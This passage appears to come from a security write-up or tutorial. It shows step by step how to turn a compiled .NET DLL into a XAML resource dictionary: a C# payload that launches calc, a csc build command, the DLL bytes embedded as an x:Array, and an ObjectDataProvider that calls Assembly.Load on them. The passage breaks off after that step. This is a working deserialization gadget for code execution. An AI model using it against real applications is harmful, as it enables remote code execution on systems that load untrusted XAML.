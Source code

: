 As a payload we can use something simple for now:

```csharp
using System.Diagnostics;

public class Payload
{
		public static void Run()
		{
				Process.Start("calc");
		}
}
```

To build a DLL-file from this code open the `Developer Command Prompt for VS 20XX` and execute the following command:

```shell
csc /target:library /optimize /out:Payload.dll Payload.cs
```

Now let's translate the code into XAML line by line.

To create an array of assembly bytes we can use the `x:Array` XAML extension. It is not a perfect solution, because the size of such array will be 20 times larger than the size of the DLL, but we will improve this later.

```xml
<ResourceDictionary xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation" 
                    xmlns:x="http://schemas.microsoft.com/winfx/2006/xaml"
>
    <!-- byte[] data = new byte[] { /*... Payload.dll bytes ...*/ }; -->
    <x:Array x:Key="data" Type="{x:Type x:Byte}">
        <x:Byte>77</x:Byte>
        <!-- ... 3582 lines ... -->
        <x:Byte>0</x:Byte>
  	</x:Array>
</ResourceDictionary>
```

Then, we can use `ObjectDataProvider` to call the static method `Assembly.Load` and pass the `data` array we've created:

```diff
diff --git a/1.xaml b/2.xaml
index 4d3aa6b..b6433bf 100644
--- a/1.xaml
+++ b/2.xaml
@@ -1,5 +1,6 @@
 <ResourceDictionary xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation" 
                     xmlns:x="http://schemas.microsoft.com/winfx/2006/xaml"
+                    xmlns:r="clr-namespace:System.Reflection;assembly=mscorlib"
 >
     <!-- byte[] data = new byte[] { /*... Payload.dll bytes ...*/ }; -->
     <x:Array x:Key="data" Type="{x:Type x:Byte}">
@@ -7,4 +8,11 @@
         <!-- ... 3582 lines ... -->
         <x:Byte>0</x:Byte>
     </x:Array>
+
+    <!-- Assembly assembly = Assembly.Load(data); -->
+    <ObjectDataProvider x:Key="assembly" ObjectType="{x:Type r:Assembly}" MethodName="Load">
+        <ObjectDataProvider.MethodParameters>
+          <StaticResource ResourceKey="data"></StaticResource>
+        </ObjectDataProvider.MethodParameters>
+    </ObjectDataProvider>
 </ResourceDictionary>


```